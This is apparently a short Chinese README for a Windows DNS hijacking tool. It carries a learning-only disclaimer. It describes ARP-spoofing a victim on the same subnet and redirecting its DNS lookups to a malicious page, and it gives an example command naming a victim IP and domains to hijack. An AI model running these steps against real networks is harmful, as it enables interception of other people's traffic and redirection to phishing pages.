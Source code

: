 ## 免责声明

涉及到的所有技术仅用来学习交流，严禁用于非法用途。否则产生的一切后果自行承担。

## 介绍

实现windows环境下的dns劫持需求，全程操作都是在被控机器A上完成。

假设机器A(被控)和机器B在一个C段：

1、在A上对B做arp欺骗，使B的所有流量到A。

2、修改B流量中的dns的解析规则，解析到恶意页面。

arp欺骗：

参考：https://github.com/alandau/arpspoof

dns劫持：

```
dns_hijacking "网卡描述(ipconfig /all)" 受害者ip "要劫持的根域名"

dns_hijacking "Intel(R) PRO/1000 MT Network Connection" 192.168.213.188 "baidu.com,2345.cc,2345.com,bing.com"
```





